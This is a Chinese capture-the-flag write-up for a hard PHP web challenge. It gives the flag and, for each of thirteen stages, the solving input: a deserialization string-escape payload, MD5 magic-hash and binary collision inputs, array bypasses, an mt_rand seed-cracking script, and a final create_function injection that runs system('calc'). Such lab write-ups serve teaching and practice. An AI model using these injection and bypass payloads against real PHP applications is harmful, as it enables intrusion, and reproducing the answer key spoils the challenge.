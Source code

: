 * 题目名称： 夺命十三枪

* 题目类型： WEB

* 题目难度： 困难

* 出题人： Chimedal

* 考点：php绕过大乱炖

* 描述：国服韩信在初赛失利后毅然闭关，刻苦钻研PHP，打磨出这一绝世武功——夺命十三枪。
夺命十三枪始于浩荡天恩
逐百鬼夜行天下无双
风无声 心如止水
光无影 七剑无衡
海纳百川浑然依啄
各位师傅能接几枪呢？

* flag： XSCTF{Yanz1_i_w1sh_y0u_hApp1neSs}

* Writeup：
第一关：
```
man1=hahah&man2=xiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohe";s:4:"ohoh";b:1;}
```

第二关：
```
&username=hanxin&code=t0
```

第三关：
```
d=99999
```

第四关：
```
num[1]=a&num[2]=b
```

第五关：
```
mdmd1=QNKCDZO&mdmd2=s878926199a
```

第六关：
```
mdmdmd1[]=1&mdmdmd2[]=2
```

第七关：
```
mdmdmdmd1=psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%24%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%82%7D%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%84%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEcC%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%BC%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%99%B59%F9%FF%C2&mdmdmdmd2=psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%A4%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%02%7E%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%04%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEc%C3%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%3C%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%9959%F9%FF%C2
```

第八关
```
qq=xx[0]=s878926199a
```

第九关
```
pra=2306312
```

第十关
这里考察了种子爆破，使用`php_mt_seed`工具进行爆破。
根据代码，会在一定时间内给出我们第一个随机数，然后我们根据这个随机数去爆破。
```php
<?php
mt_srand(1728453);
echo "hint:" . (mt_rand()) . "<br />";
for ($i = 0; $i <= 100; $i++) {

    if ($i == 100) {
        $sui = mt_rand();
        print_r($sui);
    } else {
        mt_rand();
    }
}
```
这里写了一个循环，我们可以利用题目中的代码去生成对应的随机数，然后去给POST中的many赋值。

第十一关
```
?a=QNKCDZO&b=240610708&c=/+ 
```

第十二关
```
这里用到十六进制0x117c或者八进制010574
```

第十三关
```
flag1=\create_function&flag2=return;}system("calc");//
```








